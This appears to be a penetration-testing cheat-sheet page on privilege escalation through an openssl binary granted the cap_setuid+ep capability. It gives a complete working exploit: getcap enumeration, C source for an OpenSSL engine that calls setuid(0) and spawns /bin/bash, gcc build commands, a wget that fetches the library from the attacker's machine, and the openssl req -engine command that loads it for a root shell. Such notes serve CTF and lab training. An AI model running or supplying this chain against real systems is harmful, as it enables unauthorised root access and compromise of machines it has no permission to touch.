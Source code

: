 ```yaml
---
title: OpenSSL PrivEsc
desc:
tags: [OpenSSL, PrivEsc, Privilege, SUID]
alts: []
render_with_liquid: true
---
```


## Privilege Escalation (SUID)

Reference: [https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/){target="_blank"}

1. **Get Capabilities**

    Chack capabilities in the target machine.

    ```sh
    # -r: recursive
    getcap -r / 2>/dev/null
    ```

    If you see the openssl has the capability set as below, you can successfully exploit it.

    ```sh
    /usr/bin/openssl = cap_setuid+ep
    ```

2. **Create the Exploit in C**

    In local machine, you need to have “libssl-dev” to use the header file named “openssl/engine.h” in the exploit.  
    If you don't have it yet, install it.

    ```sh
    sudo apt install libssl-dev
    ```

    Then create "exploit.c".

    ```c
    #include <openssl/engine.h>

    static int bind(ENGINE *e, const char *id) {
        setuid(0); setgid(0);
        system("/bin/bash");
    }

    IMPLEMENT_DYNAMIC_BIND_FN(bind)
    IMPLEMENT_DYNAMIC_CHECK_FN()
    ```

    Now compile it using gcc.

    ```sh
    # -fPIC: for generating a shared object (PIC: Position Independent Code)
    # -c: compile and assemble, but do not link.
    gcc -fPIC -o exploit.o -c exploit.c
    # -shared: create a shared library.
    gcc -shared -o exploit.so -lcrypto exploit.o
    ```

3. **Get the Root Shell**

    Transfer the "exploit.so" to the target machine.

    ```sh
    wget http://<local-ip>:8000/exploit.so
    ```

    Run the exploit and finally you should get the root shell.

    ```sh
    # req: PKCS#10 X.509 Certificate Signing Request (CSR) Management.
    # engine: Engine (loadable module) information and manipulation.
    openssl req -engine ./exploit.so
    ```